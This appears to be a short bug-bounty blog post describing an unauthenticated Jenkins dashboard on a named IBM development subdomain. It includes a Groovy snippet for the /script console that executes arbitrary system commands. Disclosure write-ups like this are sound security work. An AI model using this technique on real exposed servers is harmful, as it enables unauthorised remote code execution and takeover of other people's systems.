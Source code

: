 ```yaml
---
layout: post
title: "Remote Code Execution on ibm.com subdomain"
date: 2021-5-6
comments: true
---
```



i've found Jenkins on acc11-blr-dev-01.sl1694431.sl.edst.ibm.com does not require authentication for access dashboard

<img src='https://github.com/knassar702/knassar702.github.io/blob/master/images/ibm.png?raw=true'>


### what can i do with this .?
***
everything , add/delete `admin accounts`,`service`,`configuration`,`etc ..`

<img src='https://github.com/knassar702/knassar702.github.io/blob/master/images/ibm4.png?raw=true'>

but the intersing path is `/script` , you can write Jenkins script 
so you can write script for execute system commands

```java
def command = "YOUR_COMMAND"
def proc = command.execute()
proc.waitFor()
println "Process exit code: ${proc.exitValue()}"
println "Std Err: ${proc.err.text}"
println "Std Out: ${proc.in.text}"
```
<img src='https://github.com/knassar702/knassar702.github.io/blob/master/images/ibm7.png?raw=true'>


Thanks
